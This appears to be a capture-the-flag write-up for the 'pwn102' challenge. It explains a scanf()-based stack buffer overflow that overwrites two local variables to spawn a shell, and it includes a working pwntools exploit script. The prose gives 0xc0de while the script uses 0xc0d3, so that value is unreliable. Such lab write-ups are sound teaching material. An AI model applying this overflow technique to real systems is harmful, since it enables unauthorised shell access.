 ### Binary metadata

```shell
root@c18329d2a566:~# checksec ./pwn102.pwn102
[*] '/root/pwn102.pwn102'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

### Code (disasm)

![pwn-image]({{ '/' | absolute_url }}assets/images/pwn101-02.png)

This time, user provided input is acquired using `scanf()`, which won't check the length of the string stored in `var_70h`.

We have again a great vector for our buffer overflow, that we can use to ”overwrite” the value of `var_8h` and `var_4h` with values that will force the program to spawn a shell for us.

### Exploit

We need to modify the value of 2 variables to force the program to spawn a shell for us (left-hand side branch).

We leverage a buffer overflow, overwriting the next 2 32 bit variables with `0xc0de` and `0xc0ff33`.

```python
#!/usr/bin/env python3
#
# Exploit: modify variable value
# We overwrite the value in the second variable so that the program will open
# a shell for us

from pwn import *


context.update(arch="amd64", os="linux")

# Fill input string and overwrite the value in the next int (i.e., 32 bits)
# variables in the stack
payload = b"A" * (0x70 - 0x8)
payload += p32(0xc0d3)
payload += p32(0xc0ff33)

process = process("./pwn102.pwn102")
# process = remote("xxx", 9002)

process.clean()
process.sendline(payload)

process.interactive()
```

